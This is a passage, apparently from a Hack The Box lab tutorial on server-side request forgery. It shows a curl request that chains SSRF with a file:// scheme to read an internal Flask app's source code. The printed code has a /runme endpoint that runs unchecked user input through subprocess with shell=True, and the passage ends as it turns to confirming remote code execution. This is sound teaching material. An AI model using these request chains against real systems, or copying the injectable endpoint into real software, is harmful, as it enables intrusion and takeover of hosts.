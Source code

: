 Now we know that the current path is `/app`, and we have a list of interesting files. Let's disclose the `internal_local.py` file as follows.

#### Retrieving a local file through the target application - File Schema

```shell
p3ta@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 771
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 20:40:28 GMT

<html><body><h1>Resource: file:///app/internal_local.py</h1><a>import os
from flask import *
import urllib
import subprocess

basedir = os.path.abspath(os.path.dirname(__file__))

app = Flask(__name__)

def run_command(command):
    p = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    stdout = p.stdout.read()
    stderr = p.stderr.read()
    result = stdout.decode() + " " + stderr.decode()
    return result

@app.route("/")
def index():
    return run_command("ls -lha")

@app.route("/runme")
def runmewithargs():
    command = request.args.get("x")
    if command == "":
        return "Use /runme?x=<CMD>"
    return run_command(command)

if __name__ == "__main__":
    app.run(host="127.0.0.1", port=5000)
</a></body></html>
```

By studying the source code above, we notice a functionality that allows us to execute commands on the remote host sending a GET request to`/runme?x=<CMD>`. Let us confirm remote code execution by sending `whoami` as a command.

#### cURL - Interacting with the Target
